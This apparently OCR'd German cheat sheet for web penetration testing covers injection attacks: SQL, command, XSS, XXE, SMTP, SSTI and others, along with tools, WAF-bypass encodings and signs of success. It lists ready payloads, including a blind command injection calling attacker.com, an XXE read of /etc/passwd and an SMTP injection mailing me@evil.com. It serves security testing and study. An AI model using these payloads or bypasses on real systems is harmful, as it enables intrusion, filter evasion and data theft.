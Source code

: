 | Typ                                | Ziel                 | Beschreibung                           |
| ---------------------------------- | -------------------- | -------------------------------------- |
| **SQL Injection**                  | Datenbanken          | Manipulation von SQL-Abfragen          |
| **Command Injection**              | Shell                | Ausführung systemweiter Befehle        |
| **LDAP Injection**                 | Directory Services   | Manipulation von LDAP-Filterausdrücken |
| **XSS** (Reflektiert, Stored, DOM) | Browser              | Einschleusen von JavaScript            |
| **XML Injection / XXE**            | XML-Parser           | Zugriff auf Files, SSRF über XML       |
| **NoSQL Injection**                | MongoDB, CouchDB     | Manipulation von JSON-Queries          |
| **SMTP Injection**                 | Mailserver           | Einschleusen von Mail-Kommandos        |
| **CRLF Injection**                 | HTTP Header          | HTTP-Response Splitting                |
| **XPath Injection**                | XML-Datenbank        | Manipulation von XPath-Ausdrücken      |
| **SSI Injection**                  | Server-Side Includes | Serverseitige Codeausführung           |
| **Host Header Injection**          | HTTP-Header          | SSRF, Reset-Links hijacken             |
| **Template Injection (SSTI)**      | Template Engines     | Server-Side Code Execution             |
| **GraphQL Injection**              | GraphQL APIs         | Query-Manipulation und introspection   |

' " ` ; ) ( < > ${} || && //


'; WAITFOR DELAY '0:0:5'--        # SQLi Time

| sleep 5                         # Command Inj.

`nslookup attacker.com`          # Blind CMD

"><script>alert(1)</script>      # XSS

<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

" | mail -s pwn me@evil.com      # SMTP Inj.

| Typ          | Tool                                | Zweck                |
| ------------ | ----------------------------------- | -------------------- |
| SQLi         | `sqlmap`, `Burp`, `sqlitebrowser`   | Vollautomatisierung  |
| CMD          | `Commix`, `Burp`, `curl`            | Command Exec         |
| XSS          | `XSStrike`, `Dalfox`, `XSScrapy`    | Kontextanalyse       |
| XML / XXE    | `Burp`, `XXEinjector`, `xmlstarlet` | File Read, SSRF      |
| SSTI         | manuell / `tplmap`                  | Template-Injektion   |
| LDAP / XPath | manuell                             | Logikfehler erzeugen |
| NoSQL        | `NoSQLMap`, `Burp`                  | JSON-Manipulation    |


**Bypassing WAFs & Filters:**
| Technik              | Beispiel                          |
| -------------------- | --------------------------------- |
| URL-Encoding         | `%27` statt `'`                   |
| Doppel-Encoding      | `%2527`                           |
| Keyword-Splitting    | `SEL/**/ECT`                      |
| Case-Bypass          | `SeLeCt`                          |
| Whitespaces ersetzen | `+`, `%09`, `%0a`                 |
| Comments             | `UN/**/ION/**/SELECT`             |
| Obfuscation          | `char(97)+char(100)+char(109)...` |

| Kontext       | Beispiel-Injektion             |   |                |
| ------------- | ------------------------------ | - | -------------- |
| GET-Parameter | `/index.php?id=1' -- `         |   |                |
| POST-Body     | `username=admin' -- `          |   |                |
| JSON-API      | `{"user":"admin' -- "}`        |   |                |
| HTTP-Header   | \`User-Agent: '                |   | sleep(5) -- \` |
| Cookies       | `Cookie: session=1' or '1'='1` |   |                |
| URL-Path      | `/product/' OR 1=1--`          |   |                |


| Indikator              | Bedeutung                        |
| ---------------------- | -------------------------------- |
| SQL-Fehler             | `mysql_fetch...`, `syntax error` |
| Verzögerung            | Time-Based Blind                 |
| Ungewöhnliche Ausgaben | z. B. `uid=0(root)`              |
| Reflektierter Payload  | XSS wahrscheinlich               |
| Zugriff auf Files      | XXE, CMD                         |
| Statuscode 500/403/301 | Filterung oder WAF               |
